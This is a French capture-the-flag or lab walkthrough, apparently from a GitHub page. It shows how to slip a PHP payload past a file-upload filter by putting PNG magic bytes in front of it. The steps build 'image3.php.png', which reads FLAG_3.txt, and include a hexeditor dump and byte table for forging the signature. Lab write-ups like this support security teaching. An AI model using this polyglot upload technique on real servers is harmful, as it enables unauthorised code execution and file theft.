 ### Prérequis
- Burp Suite configuré et fonctionnel
- Navigateur configuré pour utiliser Burp comme proxy (127.0.0.1:8080)
- `hexeditor` installé sur Kali

### Concept : Magic Numbers

**Magic Numbers** : Ce sont les premiers octets d'un fichier qui identifient son type de manière unique.

**Exemples de Magic Numbers** :
| Type de fichier | Magic Numbers (hex) | Magic Numbers (ASCII) |
|-----------------|---------------------|----------------------|
| PNG | `89 50 4E 47 0D 0A 1A 0A` | `.PNG....` |
| JPEG | `FF D8 FF E0` | `ÿØÿà` |
| GIF | `47 49 46 38 39 61` | `GIF89a` |
| PDF | `25 50 44 46` | `%PDF` |

### Méthodologie détaillée

#### Étape 1 : Créer le fichier de base avec placeholder

```bash
cat > image3.php.png << 'EOF'
12345678
<?php readfile('FLAG_3.txt') ?>
EOF
```

**Explication** :
- `12345678` : 8 caractères placeholder (seront remplacés par les magic numbers PNG)
- Pourquoi 8 ? Les magic numbers PNG font exactement 8 octets
- Le code PHP vient après les magic numbers

#### Étape 2 : Modifier les magic numbers avec hexeditor

```bash
hexeditor image3.php.png
```

**Dans hexeditor, tu verras** :
```
00000000  31 32 33 34  35 36 37 38   0A 3C 3F 70  68 70 20 72    12345678.<?php r
00000010  65 61 64 66  69 6C 65 28   27 46 4C 41  47 5F 33 2E    eadfile('FLAG_3.
00000020  74 78 74 27  29 20 3F 3E   0A                         txt') ?>.
```

**Remplacer les 8 premiers octets** :

| Position | Valeur actuelle | Nouvelle valeur |
|----------|-----------------|-----------------|
| Octet 1 | `31` (1) | `89` |
| Octet 2 | `32` (2) | `50` |
| Octet 3 | `33` (3) | `4E` |
| Octet 4 | `34` (4) | `47` |
| Octet 5 | `35` (5) | `0D` |
| Octet 6 | `36` (6) | `0A` |
| Octet 7 | `37` (7) | `1A` |
| Octet 8 | `38` (8) | `0A` |